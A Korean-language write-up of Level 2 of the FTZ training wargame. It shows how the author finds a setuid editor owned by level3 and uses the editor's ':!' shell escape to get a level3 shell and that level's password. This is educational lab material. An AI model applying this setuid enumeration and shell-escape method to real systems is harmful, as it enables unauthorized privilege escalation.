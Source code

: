 # FTZ Level 2 풀이

## 1. Level 2 로그인

![image-20210427225615427](image-20210427225615427.png)

![image-20210427225720492](image-20210427225720492.png)

## 2. 풀이

1. **hint 파일 확인**

   ```
   [level2@ftz level2]$ ls
   hint  public_html  tmp
   [level2@ftz level2]$ cat hint 
   
   
   텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
   ```


   

2. **level3 권한 파일 찾기**

   ```
   [level2@ftz level2]$ find / -user level3 2> /dev/null
   /usr/bin/editor
   ```

   

3. **editor 파일 확인 및 실행**

   ```
   [level2@ftz bin]$ ls -al | grep editor
   -rwsr-x---    1 level3   level2      11651 Sep 10  2011 editor
   [level2@ftz bin]$ ./editor
   ```

   ![image-20210427230943344](image-20210427230943344.png)

   

4. **힌트 풀이**

   > *텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...*

   1. esc 키로 명령어 모드로 변경

   2. :![명령어]

      ![image-20210427231234512](image-20210427231234512.png)

      ```
      [level2@ftz bin]$ ./editor
      
      [level3@ftz bin]$ 
      ```

   3. Shell 실행후 level3 권한으로 my-pass 명령어 실행

      ![image-20210427231722221](image-20210427231722221.png)



**Level 3 Password 확인 완료.**



